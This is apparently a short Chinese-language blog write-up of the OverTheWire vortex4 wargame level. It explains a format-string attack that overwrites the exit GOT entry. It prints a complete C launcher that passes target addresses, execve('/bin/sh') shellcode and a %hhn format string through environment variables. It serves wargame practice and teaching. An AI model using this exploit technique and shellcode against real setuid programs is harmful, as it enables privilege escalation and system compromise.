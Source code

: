 ```yaml
---
title: vortex4
author: rk700
layout: post
redirect_from: /writeup/2014/07/08/vortex4
tags:
  - OverTheWire
  - exploit
---
```

format string。由于还是exit，所以与上题一样，修改got.

由于argc必须为0，所以要另外写一个c程序，用exec。我们把argv设为{NULL}, 要修改的地址放到envp[0], shellcode放到envp[1], format string放到envp[2]。这样printf就会打印envp[2]

还是用寻找A的方式，大概确定了format string的内容大概是第98个参数。exit在plt的地址是0x0804a008，经过一番调整，确定了各个环境变量的长度，然后确定SHELLCODE的地址和format的具体形式。

代码如下

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main (int argc, char *args[]) {
    char *env1="\x08\xa0\x04\x08\x09\xa0\x04\x08\x0a\xa0\x04\x08\x0b\xa0\x04\x08";
    char *env2="SHELLCODE=\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
    char *env3="%155x%97$hhn%64x%98$hhn%32x%99$hhn%100$hhn";
    char *argv[] = {NULL};
    char *envp[] = {env1, env2, env3, NULL};
    execve("/vortex/vortex4", argv, envp);
}
{% endhighlight %}
